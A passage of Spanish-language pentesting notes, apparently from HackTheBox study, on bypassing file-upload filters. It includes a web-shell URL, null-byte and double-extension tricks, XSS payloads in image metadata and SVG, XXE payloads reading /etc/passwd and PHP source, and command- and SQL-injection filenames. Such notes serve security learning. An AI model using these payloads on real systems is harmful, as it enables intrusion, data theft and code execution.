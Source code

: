
http://caca.com/uploads/shell.php?cmd=id

## Blacklist filters

Cuando hay una validación de la extensión en el backend donde compara la extensión del archivo con una serie de extensiones de su blacklist

PASOS PARA BYPASSEARLO

1. Fuzzear extensiones y ver cuales están en la blacklist y cuales no
2. Probas a subir shells con las extensiones que te deja para ver si alguna ejecuta la shell

## Whitelist filters

Cuando hay una lista de extensiones que SI deja utilizar

1.Si comprueba que existe una extension de la whitelist en el archivo sin comprobar que es la última extension
|
| En estos casos usamos las extensiones dobles ,Ej:
| `ejemplo.jpg.php` -> en este caso bypasseamos el filtro porque la web 
| comprueba que el .jpg está 

2.Cuando comprueba la última extensión
| En este caso invertimos las extensiones para que bypasseemos la whitelist 
| pero eso puede no ser suficiente porque el que se ejecute el php o no       
| depende de como este configurado el servidor, esto lo sabremos mejor 
| si el servidor es un opensource y podemos ver como trata las extensiones

### Character injection

Se puede jugar con php para que interprete de manera errónea las extensiones con carácteres:
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
El `%00` sirve para versiones de PHP 5.X y anteriores , es el null byte y nos sirve para bypassear el filtro pero que luego se guarde sin la extensión de detrás del null byte. Ej: `shell.php%00.jpg -> shell.php`

En servidores windows pasa lo mismo pero con `:`  Ej: `shell.php:.jpg -> shell.php`  no es con php si no con cualquier extensión

## Type filters

En este caso no validan la extensión como en los casos anteriores si no que vaidan el contenido del archivo , los casos mas comunes son `Content-Type Header` y `File Content`

Esto se nota cuando los bypasses anteriores no nos funcionan y tampoco subir una shell que se llame shell.png ,si la extension png está autorizada y todavia nos da error puede ser porque la web compruebe también el contenido del archivo asi que simplemente cambia el content-type a lo que te deje

## MIME-Type

En este caso se comprueban los llamados Magic Bytes, por ejemplo si un archivo empieza con `GIF87a` entonces es porque es un GIF y esos bytes son los que comprueba la app para ver si tu archivo es adecaudo

## Concatenar con otras vulnerabilidades 

A veces la web está bien protegida ante los ataques vistos anteriormente pero puede ser que a través de una upload podamos agregar a la web una vulnerabilidad nueva 

### XSS

-Subir archivos html que exploten stored XSS

-Cuando una web además de guardar la foto la enseña sus metadatos:
```shell-session
bonack@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
También puede ser que si de la foto le quitamos los Magic Bytes la web interprete la imagen como texto y por ende que eneseñe el XSS sin necesidad de que se vean explicitamente los metadatos

-Si te deja meterle .svg como imagen podríamos explotar XSS cada vez que  se muestre la foto : 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

-Para mostrar /etc/passwd (hay que usar extensión .svg)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
-Para leer el código fuente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### DoS
## Command injection

si subimos un archivo que en el nombre tiene un comando y el nombre del archivo entero es ejecutado en un OS puede dar un command injection

`file$(whoami).jpg` 
``file`whoami`.jpg`` 
`file.jpg||whoami`

lo mismo se aplica con XSS y SQLi : `file';select+sleep(5);--.jpg`
